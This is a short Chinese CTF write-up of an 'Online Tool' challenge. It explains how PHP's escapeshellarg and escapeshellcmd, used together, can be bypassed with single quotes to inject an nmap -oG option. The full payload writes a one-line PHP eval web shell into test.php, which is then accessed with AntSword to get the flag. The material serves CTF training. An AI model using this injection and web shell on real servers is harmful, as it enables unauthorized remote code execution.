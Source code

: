 ## 0x01 Online Tool

通过nmap写入文件指令-oG进行写马

涉及到`escapeshellarg`和`escapeshellcmd`联合使用的绕过

`escapeshellarg`函数：

对单引号转义，并将其他部分用单引号括起来

`escapeshellcmd`函数：

`escapeshellcmd()` 对字符串中可能会欺骗 `shell` 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 `exec()` 或 `system()` 函数，或者 执行操作符 之前进行转义。

反斜线`\`会在以下字符之前插入： `&#;|*?~<>^()[]{}$\` ,`\x0A` 和 `\xFF`。 `'` 和 `"` 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 `%` 和 `!` 字符都会被空格代替。

对于该题中`escapeshellarg()`和`escapeshellcmd()`联合使用的情况，我们可以采用单引号进行绕过

Payload：

```
/?host=' <?php eval($_POST[shell]);?> -oG test.php '
```

经过`escapeshellarg()`函数后该payload会变为

```
\' '<?php eval($_POST[shell]);?> -oG test.php \''
```

经过`escapeshellcmd()`函数后该payload会变为

```
\\' '\<\?php eval\(\$_POST\[shell\]\)\;\?\> -oG test.php \\''
```

即在exec命令时进行执行，将马写入test.php中

之后蚁剑连接获得flag

